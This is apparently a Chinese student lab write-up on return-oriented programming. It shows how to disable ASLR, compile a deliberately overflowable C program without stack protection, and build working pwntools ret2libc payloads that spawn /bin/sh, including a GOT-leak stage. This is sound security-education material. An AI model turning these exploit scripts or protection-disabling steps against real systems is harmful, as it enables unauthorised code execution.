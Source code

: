 ```yaml
---
title: ROP技术 date: 2019-10-22 09:50:08 tags:

- "网络空间安全"
- "软件安全"
  categories:
- ["实验","漏洞分析"]
- ["漏洞","缓冲区溢出"]
  comments: true mathjax: true

---
```


## 实验目的

了解ROP技术的原理和应用，学会利用ROP技术绕过安全保护。
<!-- more -->

## 步骤

### canary+ASLR off，NX on下getshell

{% note primary %}

#### 准备工作

{% tabs prepare,1 %}
<!-- tab 关闭ASLR -->
执行以下shell命令 {% codeblock lang:bash line_number:false %} echo 0 > /proc/sys/kernel/randomize_va_space {% endcodeblock %}
{% asset_img 1-0.png %}
<!-- endtab -->
<!-- tab 开启NX-->
gcc编译时加入`-z noexecstack`参数 {% codeblock lang:bash line_number:false %} gcc -znoexecstack -fno-stack-protector rop1.c -o
rop1 -m32 {% endcodeblock %}
<!-- endtab -->
<!-- tab 确认ASLR和栈保护canary已关闭 -->
使用`checksec`命令检查 {% codeblock lang:bash line_number:false %} checksec --file ./rop1 {% endcodeblock %} {% asset_img
1-1.png %}
<!-- endtab -->
{% endtabs %} {% endnote %}

其中`rop1.c`的源码如下 {% codeblock rop1.c lang:c %}

# include <stdio.h>

void vuln(){ char buf[128]; read(0,buf,256); } int main(){ vuln(); write(1,"hello vuln\n",10); } {% endcodeblock %}

`vuln`函数中，有一个128字节长的`char`数组作为“缓冲区”，然后调用`read()`读入了256字节，此时很容易造成程序溢出。我们要利用这个漏洞向“缓冲区”`buf`
写入shellcode，劫持程序流，把返回地址改为恶意代码地址(`bin/sh`)
{% asset_img 1-2.png "利用示意图" %}

下面进入gdb调试过程： {% note warning %} 本次使用目标文件为`rop2`——但源码仍然为`rop1.c`
{% endnote %}

1. Buffer的有效地址为`ebp-0x88`，ebp距离返回地址又有`0x4`的距离，所以在覆盖返回地址前，先要填充`0x88+0x4=0x8c`
   段距离。由于NX开启，栈上代码不可执行，所以我们需要使用系统调用`system("bin/sh")`。 {% asset_img 1-3.png %}
2. 首先确定`system`的地址。 {% asset_img 1-4.png "system的地址是0xf7e40da0" %} 由于ASLR还是关闭状态，所以`system`地址固定，可以通过`system`地址来调用`system`
   函数，`/bin/sh`字符串可以在程序所使用的`libc.so`链接库中寻找，也是固定的。
3. 接下来，寻找字符串`bin/sh`的地址。由于gdb的调试环境会影响buf变量在内存中的地址，故需要在python脚本中开启调试，使用`gdb.attach()`
   即可，然后运行python脚本。会开启一个新的shell窗口，在其中执行`vmmap`查看其引用的`libc.so`地址 {% codeblock lang:python line_number:false %} p =
   process("./rop2")
   gdb.attach(p,'b vuln')
   {% endcodeblock %} {% asset_img 1-5.png %}
4. 下图表明该程序引用了2.23版本的libc库，地址范围为`0xf7e06000~0xf7fb9000`，接着在其中寻找`bin/sh`字符串 {% note warning %}
   这里有个小坑点，gdb-peda输出结果有微小不同，从而导致找不到`bin/sh`字符串，不知道是什么问题导致的 {% endnote %} {% asset_img 1-6.png %} {% asset_img 1-7.png "
   bin/sh在地址0xf7f61a0b处" %}
5. 刚才的程序继续后其实也是一个`/bin`程序，只不过其中没有什么命令。但是从没有`Hello rop`输出来看，程序控制流已经被改变了。 {% asset_img 1-10.png %}
6. 最终payload代码如下。先填充足够的字符`a`占满缓冲区，再填入`system`函数的地址，由于getshell后没有其他事情可做，返回地址随便填，然后跟入`/bin/sh`的地址作为参数 {% codeblock
   payload1.py lang:python line_number:false %} from pwn import *

p = process('./rop2')

# gdb.attach(p,'b vuln')

sys_addr=0xf7e40da0 binsh_addr=0xf7f61a0b payload = 'a'*0x8c + p32(sys_addr)+p32(0xdeadbeef)+p32(binsh_addr)

p.sendline(payload)
p.interactive()
{% endcodeblock %} {% asset_img 1-12.png "Getshell成功" %}

### canary off，NX+ASLR on下getshell

{% note primary %}

#### 准备工作

{% tabs prepare2,1 %}
<!-- tab 开启ASLR -->
执行以下shell命令 {% codeblock lang:bash %} echo 2 > /proc/sys/kernel/randomize_va_space {% endcodeblock %} {% asset_img
2-0.png %}
<!-- endtab -->
<!-- tab 准备<code>libc.so</code> -->
从目录 <code>/lib/i386-linux-gnu/libc-2.23.so</code>中拷贝出系统的so文件，复制到文件夹下。
<!-- endtab -->
{% endtabs %} {% endnote %} 由于地址随机化，不可以直接获取system的地址，但是`libc.so`中各函数的相对位置不变，可以利用泄露出的某函数地址与`system`函数之间取偏移值，计算`system`
函数的地址和`/bin/sh`字符串的地址，就可以使用ret2libc方法getshell。

1. 在脚本中，使用`gdb.attach`并打指令`b vuln`，在`vuln`函数下断点。 利用`disass vuln`查看`vuln`函数汇编，得到`vuln`函数首地址为`0x804843b`。 {% asset_img
   2-6.png %} {% note info %} 另外一种算法是：在backtrace可以看到`0x804845a`是vuln+31的位置(如图)，计算得知 $$ vulnAddr=\left(804845a\right )
   \_{16}-\left(31\right )_{16}+\left(4\right )\_{16}=\left(804843b\right )\_{16} $$ {% asset_img 2-1.png %} {% endnote
   %}
2. 继续运行程序，在寄存器中可以看到got表泄露的`write`绝对地址`0xf7644b70`与其在程序中的地址`0x804a014`。`write`函数所在got表中的相对偏移量为+20，说明got表的基地址为`0x804a000`
   。立刻执行`print system`，看到此时`libc_system`的地址是`0xf75a9da0`。 {% asset_img 2-2.png "得知got表和libc_system的地址" %}
3. 执行`plt`命令，看到`write`函数的`plt`地址为`0x8048320`。 {% asset_img 2-5.png %}
4. 使用`vmmap`和`find`命令寻找`/bin/sh`的地址。 {% grouppicture 2-2 %} {% asset_img 2-3.png %} {% asset_img 2-4.png "
   字符串/bin/sh的地址为0xf76caa0b" %} {% endgrouppicture %}
5. 计算字符串`/bin/sh`相对偏移量为 $$ \left(f76caa0b\right )\_{16}-\left(f75a9da0\right )\_{16}=\left(120c6b\right )\_{16} $$
   ROP所需要的东西都齐备了。
6. 但是在实际getshell的过程中，我们需要以脚本的方式来自动化完成泄露地址->寻找相对差值->
   写shellcode的过程，所以需要pwn库的一些额外功能。由于只有在程序运行时，才会加载系统库，所以需要预先发送一个payload，此payload用于泄露地址，计算出`/bin/sh`
   的相对位移后，第二步的payload才会“击中要害”。
7. Pwn的ELF模块用于获取ELF文件的信息，用法是`elf=ELF('sofile_name')`，我们要在这里拿`write`函数的got表和plt表地址，可以直接用`elf.got["write"]`
   ，`elf.plt["write"]`获得，至于寻找`/bin/sh`字符串，可以用`next(elf.search('/bin/sh'))`获得。
8. 最终payload代码如下 {% codeblock payload2.py lang:python %} from pwn import *

p =process('./rop2')
libc = ELF('./libc.so')

# gdb.attach(p,'b vuln')

write_got = 0x804a014 write_plt = 0x8048320 vuln_addr = 0x804843b

log.info('leaking addr from write got&plt')
rop1 = p32(write_plt)+p32(vuln_addr)+p32(1)+p32(write_got)+p32(4)
payload1='a'*0x8c + rop1 p.sendline(payload1)

write_addr = u32(p.recv(4))
sys_addr = write_addr - (libc.symbols['write']-libc.symbols['system'])
binsh_addr = write_addr - (libc.symbols['write']-next(libc.search('/bin/sh')))

log.info('write_addr:%#x'%write_addr)
log.info('write in libc.symbols:%#x'%libc.symbols['write'])
log.info('system in libc.symbols:%#x'%libc.symbols['system'])
log.info('/bin/sh absolute addr:%#x'%next(libc.search('/bin/sh')))
log.info('system_addr:%#x'%sys_addr)
log.info('binsh_addr:%#x'%binsh_addr)
log.info('sending final payload')
rop2 = p32(sys_addr)+p32(0xdeadbeef)+p32(binsh_addr)
payload2='a'*0x8c+rop2 p.sendline(payload2)

p.interactive()
{% endcodeblock %} 其中第一步先向`vuln_addr`写入`write`函数的地址，以获得泄露的`write`函数绝对地址。然后，根据系统库的相对偏移计算出`/bin/sh`
的地址，最终的payload是填充`0x8c个字符"a"+sys_addr+sys_addr的返回地址（随意指定一个不存在的值）+binsh_addr`。观察上述脚本，我还发现，`/bin/sh`的地址其实可以直接用`write`
和`/bin/sh`的相对差值来算，不需要再单独算出`sys_addr`。 {% asset_img 2-7.png "Getshell成功截图" %}

## 实验难点及收获

本次实验的难点和最大的收获都在于payload的构造方法。这次通过两个实验，了解到了利用ROP技术绕过NX和ASLR保护的方法，了解到shellcode `system("/bin/sh")`
在此时的一般构造格式为`溢出填充字符+p32(sys_addr)+p32(system的返回地址，一般指定一个不存在的地址)+p32(binsh_addr)`，`sys_addr`
可以在ASLR关闭的情况下直接gdb调试观察，或者在ASLR开启时通过泄露libc某函数的地址，算出相对差值以获得。

本次实验所使用的程序都是32位程序，实际上还有很多64位程序会用到相似的思路，不过64位程序需要借助gadget，这是以后要进一步学习的内容了。

## 实验思考

问题：为什么明明pwndbg和gdb-peda对于vmmap中libc-2.23.so的起始终止地址输出均相同，但是在gdb-peda中找不到`/bin/sh`呢？ {% grouppicture 3-1 %} {% asset_img
1坑点.png %} {% asset_img 2-3.png %} {% asset_img 2-4.png %} {% endgrouppicture %}
